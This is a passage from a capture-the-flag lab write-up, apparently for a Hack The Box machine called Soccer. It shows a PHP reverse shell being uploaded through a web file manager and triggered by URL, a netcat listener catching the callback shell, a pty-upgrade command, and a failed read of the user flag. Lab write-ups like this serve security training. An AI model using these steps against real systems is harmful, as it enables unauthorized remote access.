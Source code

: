 Since it is a file manager, and it was made with `PHP`, I decided to try and upload a `php-reverse-shell` into the `tiny/upload` directory as we can only upload there.

I used [PentestMonkey's Reverse shell](https://github.com/pentestmonkey/php-reverse-shell)

![soc-6](https://user-images.githubusercontent.com/87711310/217194739-deb0ed74-7ff9-4f25-b593-a211094f38e7.png)

I uploaded the shell in the `/tiny/uploads` folder as I was not able to upload it in any other folder. Once uploaded you can see the preview of the fil you uploaded.

![soc-7](https://user-images.githubusercontent.com/87711310/217195443-36c56d0e-7551-4177-8e03-2a8485dcc5d6.png)

You can run the exploit by visiting this folder.

```
soccer.htb/tiny/uploads/rev.php
```

Now, I started a `netcat` listener on my machine with the port I provided in the reverse shell and once I clicked on the reverse shell on the webpage, I got back a shell

```                                                                                                                                                          
┌──(darshan㉿kali)-[~/Desktop/Misc]
└─$ nc -lvnp 9999               
listening on [any] 9999 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.194] 51382
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 08:46:52 up 58 min,  0 users,  load average: 0.00, 0.03, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```


Now, I tried to upgrade the shell, using following python command.

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

But I got an error stating `python does not exist`. Guess I have to work with this shell only.

Now, I tried grabbing the user flag but couldn't

```
$ cat user.txt
cat: user.txt: Permission denied
```

If I look at the permissions of `user` flag, it was owned by player and root had the permissions

```
$ ls -l
total 4
-rw-r----- 1 root player 33 Feb  7 07:49 user.txt
```
